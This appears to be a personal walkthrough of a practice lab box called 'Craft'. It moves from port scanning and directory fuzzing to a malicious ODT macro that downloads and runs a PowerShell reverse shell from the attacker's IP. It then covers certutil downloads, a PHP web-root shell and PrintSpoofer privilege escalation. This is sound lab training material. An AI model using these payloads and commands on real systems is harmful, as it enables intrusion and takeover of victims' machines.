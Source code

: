 `nmap -A -T4 -p- 192.168.136.169`

ICMP was blocked so I had to adjust.
`nmap -A -T4 -p- -Pn 192.168.136.169`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (92%), Microsoft Windows 10 1903 - 21H1 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```


# Enum
Web Page seems like a pretty standard webpage, besides the fact it has an upload for resumes which allows all files. My guess is we have to upload a shell and find where it is stored on the backend to get execution of the shell.

![](Images/Pasted%20image%2020250514213127.png)

![](Images/Pasted%20image%2020250514213221.png)

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.136.169/FUZZ
```

![](Images/Pasted%20image%2020250514214208.png)

Uploads directory is available. So lets upload a shell and see if we can get execution.

![](Images/Pasted%20image%2020250514213459.png)

Turns out we may have to do some bypass. Lets open up burp and test some basic bypasses.

![](Images/Pasted%20image%2020250514213612.png)

First lets test some double extensions

![](Images/Pasted%20image%2020250514213820.png)

`.php.odt` was allowed to be uploaded but it doesn't go to the uploads folder. Looks like we have to do more enumeration

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.136.169/FUZZ.php
```

I can't seem to find the uploads directory, now that I am thinking about it this may be a box related to the Office Scripts portion of the course. Lets see if I can find anything there. (edit I must have been hallucinating because on a second look I don't see anything Office related on the syllabus). That being said I found this [resource] which covers malicious payloads in ODT files.

Following this guide I was able to do a test payload to transfer over Netcat.

![](Images/Pasted%20image%2020250514220602.png)

This script gets ran and downloads Netcat from my local hosted HTTP server

![](Images/Pasted%20image%2020250514220628.png)

So we should now be able to establish a foothold through this pathway.

![](Images/Pasted%20image%2020250514220937.png)

This ended up not working so lets see if we can make an easy shell via powershell instead of fiddling with Netcat.

```
	Shell("cmd /c powershell iwr http://192.168.45.244/rev.ps1 -o C:/Windows/Tasks")
	Shell ("cmd /c powershell -c C:/Windows/Tasks/rev.ps1")
```

![](Images/Pasted%20image%2020250514221503.png)

![](Images/Pasted%20image%2020250514221258.png)

After a while of not getting execution I finally found the proper way of fixing the macro

```
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://192.168.45.244/rev.ps1')""")
```

![](Images/Pasted%20image%2020250514222904.png)

Upon the documents open, it downloads our malicious payload and executes it. Leading us to gain our initial shell and our first flag.

![](Images/Pasted%20image%2020250514222938.png)

![](Images/Pasted%20image%2020250514223021.png)


# Post Exploitation

Quick check of priv

![](Images/Pasted%20image%2020250514224229.png)

Nothing of note there for the time being. Lets just go ahead and run winpeas.

```
certutil -urlcache -f http://192.168.45.244:80/winPEASany.exe winpeas.exe
```

![](Images/Pasted%20image%2020250514224919.png)

We have the apache user which could be beneficial if we can laterally move to that account. We could probably do this by placing a file directly in the root directory of the web server if we have write access. Similar to my initial access thoughts but we were limited by the .odt file. That actually sounds like its probably a good idea lets go ahead and try that.

```
certutil -urlcache -f http://192.168.45.244:80/php-reverse-shell.php php-reverse-shell.php
```

We indeed had write access, so now we have access to both thecybergeek and the apache account. Lets see if we can escalate to Admin.

![](Images/Pasted%20image%2020250514225252.png)

![](Images/Pasted%20image%2020250514225516.png)

![](Images/Pasted%20image%2020250514225528.png)

We have found our escalation path, the apache account has SeImpersonatePriv

![](Images/Pasted%20image%2020250514225557.png)

A quick search of the build `10.0.17763 N/A Build 17763` gets us PrintSpoofer as our escalation path. Which can be found [here](https://github.com/itm4n/PrintSpoofer)

```
certutil -urlcache -f http://192.168.45.244:80/PrintSpoofer64.exe PrintSpoofer64.exe
```

`PrintSpoofer.exe -i -c cmd`

![](Images/Pasted%20image%2020250514230028.png)

Lets go ahead and take our victory lap.











